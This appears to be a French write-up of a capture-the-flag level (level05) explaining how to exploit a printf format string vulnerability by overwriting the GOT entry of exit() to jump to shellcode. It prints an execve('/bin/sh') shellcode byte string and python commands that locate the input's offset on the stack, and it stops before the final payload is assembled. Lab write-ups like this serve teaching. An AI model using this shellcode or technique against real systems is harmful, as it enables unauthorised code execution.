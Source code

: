 Il s'agirait ici d'exploiter la `format string vulnerability` de `printf`. Ce n'est cependant pas aussi simple que dans les level précédent, puisqu'il n'y a pas de valeur à lire, mais il faut exécuter du code arbitraire à partir de cet exploit.

Je vais utiliser une méthode similaire à celle que j'ai utilisé dans le projet `Rainfall`, c'est un exploit du nom de `Ret2plt`.

Cet exploit implique de ré-écrire l'adresse `GOT` de la fonction `exit()` (car c'est celle qui suit le `printf()` dans notre binaire). 

L'adresse `GOT` pointe sur le "code source" de la fonction `exit()`. Avant d'atteinte `exit()` au runtime, `exit()` à une adresse `PLT`. Le processus de "dynamic linking" fait matcher cette adresse `PLT` a une adresse sur `GOT`, et permet donc à `exit()` de pointer sur sa fonction dans la `libc` (plus d'information [ici](https://reverseengineering.stackexchange.com/questions/1992/what-is-plt-got) et [ici](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got)).

On peut observer ce comportement en analysant `exit()` avec `gdb`, mais sans `run` le binaire :

```h
$ gdb ./level05 -q
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.

(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:     jmp    *0x80497e0
   0x08048376 <+6>:     push   $0x18
   0x0804837b <+11>:    jmp    0x8048330
End of assembler dump.
```

On voit que `exit()` est référencé tel que `exit@plt` et que sa première instruction pointe sur une autre adresse (celle `GOT`, où se trouve le "vrai" code d'`exit()`).

Il me faut donc tenter d'utiliser le `shellcode` du level précédent ([source](https://shell-storm.org/shellcode/files/shellcode-827.html)), de l'insérer dans le buffer, et de ré-écrire ce vers quoi pointe `exit()`, soit, le début de notre shellcode suivant :

```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

Qui représente un appel à `execve("/bin/sh")`. 

Comme dans `Rainfall`, pour construire ce payload infecté, je dois trouver quelle est la position de mon input dans la stack, car, sans argument, `printf()` va lire la stack si je lui demande d'imprimer des valeurs hexadécimal avec `%x` :

```bash
$ python -c 'print("AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x")' | ./level05
aaaa 64 f7fcfac0 0 0 0 0 ffffffff ffffd774 f7fdb000 61616161 20782520 25207825 78252078 20782520
                                                     ^
$ python -c 'print("AAAB %x %x %x %x %x %x %x %x %x %x %x %x %x %x")' | ./level0
5
aaab 64 f7fcfac0 0 0 0 0 ffffffff ffffd774 f7fdb000 62616161 20782520 25207825 78252078 20782520
                                                     ^
```

Je trouve que mon input représente le 10ème argument sur la stack.
